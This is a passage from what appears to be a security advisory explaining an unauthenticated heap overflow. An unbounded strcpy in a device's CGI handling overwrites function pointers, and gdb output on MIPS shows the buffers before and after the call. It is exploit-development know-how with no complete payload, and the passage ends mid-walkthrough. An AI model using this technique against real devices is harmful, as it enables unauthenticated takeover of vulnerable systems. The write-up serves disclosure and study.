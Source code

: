 The above code shows the call to strcpy which copies the user supplied data to an internal `cgi_tab` data structure. The data structure is allocated on the heap with the string buffer, at most, 1028 bytes long. After the string buffer other data follows, specifically function pointers. This is a common pattern with data structures used in ioos.

The `strcpy` call is unbounded and so the unauthenticated user can supply any sized string to be copied into a fixed destination buffer.

## Exploitation
Why is this issue so serious? Because it gives an unauthenticated attacker control of the Program Counter. How? By allowing the attacker to change the function pointers following a string buffer on the heap. Doing so the attacker can change program flow and potentially execute malware.

As previously mentioned the strcpy will write past the destination buffer end. Let’s see what happens under the microscope. We will set a breakpoint before and after the offending strcpy call.

```
Breakpoint 1, 0x00521bdc in ?? ()
(gdb) display /10i $pc
1: x/10i $pc
=> 0x521bdc: lw t9,-28472(gp)
   0x521be0: nop
   0x521be4: jalr t9    # <- strcpy
   0x521be8: nop
   0x521bec: lw gp,24(sp)
```

Before the call, the parameters look like this:

```
(gdb) x/10wx $a0                                  <- strcpy dest
0x5ad328: 0x00000000 0x00000000 0x00000000 0x00000000
0x5ad338: 0x00000000 0x00000000 0x00000000 0x00000000
0x5ad348: 0x00000000 0x00000000
(gdb) x/10wx $a0+1000                             <- end of dest
0x5ad710: 0x00000000 0x00000000 0x00000000 0x00000000
0x5ad720: 0x00000000 0x00000000 0x00000000 0x0051b660
0x5ad730: 0x0051b810 0x0051b844 <- Saved return address
(gdb) x/10wx $a1                                  <- strcpy src
0x5ad943: 0x41414141 0x41414141 0x41414141 0x41414141
0x5ad953: 0x41414141 0x41414141 0x41414141 0x41414141
0x5ad963: 0x41414141 0x41414141
(gdb) x/10wx $a1+1000                             <- end of src
0x5add2b: 0x41414141 0x41414141 0x41414141 0x41414141
0x5add3b: 0x41414141 0x41414141 0x41414141 0x41414141
0x5add4b: 0x41414141 0x42ff4242
```

The snippet above shows the destination and the source buffers. The source being controlled by the attacker, we see that the attacker is ready to supply a new pointer value. Now, let’s breakpoint just after the `strcpy` call.

```
Breakpoint 2, 0x00521bec in ?? ()
1: x/10i $pc
=> 0x521bec: lw gp,24(sp)
   0x521bf0: b 0x521c08
   0x521bf4: nop
```
